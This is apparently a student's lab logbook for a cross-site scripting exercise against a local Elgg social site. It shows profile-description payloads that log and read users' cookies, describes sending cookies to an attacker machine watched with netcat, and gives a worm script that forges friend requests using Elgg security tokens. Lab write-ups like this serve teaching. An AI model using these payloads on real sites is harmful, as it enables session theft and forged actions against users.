







# Log Book 10

## Environment Setup

We successfuly changed the hosts file and ran the server using the `docker-compose` commands.

## Task 1

For this task we want to inject a script into our profile.
We achieved this by posting the following script into our description:

```html
<script>
  console.log("hello");
</script>
```

We will be using `console.log` instead of `alert` to display the required information because
our firefox version blocks all pop-up windows.  
When any user visits our profile, the following message is displayed.



## Task 2

By changing the description to the following script, we can see the user's cookies.

```
<script>console.log(document.cookie);</script>
```

As can be seen in the picture bellow



## Task 3

In this task we want to be able to send the user's cookies to a server that belongs
to us, the attacker. In the script bellow, we imbed the cookies that we want to send
in a request that will be made to the attacker's machine

```
<script>
document.write("");
</script>
```

We use the netcat command line tool to listen for any requests made from users that
visited our profile. These requests contain the user's cookies, as can be seen bellow:



## Task 4

The objective of this task is to write a worm that adds Samy to a user's friend
list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension _HTTP Header Live_,
we can find how a friend HTTP request is encoded:



Using this information, we can create a script that, when executed, forges a request
that adds Samy as a friend to the logged in user.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Similar to the previous tasks, we place this script in our description so that it
will be executed by a user when he enters our profile.

### Example

1. We are logged in as Alice, as can be seen we only have Charlie as our friend.



2. When we visit Samy's profile, our script sends a forged friend request.


- We can see that the script was successful, as now we can remove him Samy as a friend.



3. When we visit our profile, we can see that we Samy is now our friend.



### Question 1

The referenced lines serve to send the elgg token in our forged request so that
the server evaluates the request as a valid request from the user.

### Question 2

A successful attack can't be launched since the Editor mode filters HTML special
characters and we can't edit the inner HTML content of the field. Thus, injecting
any script into the _About Me_ field is not possible, as we can't submit the `<script>`
tag into profile.
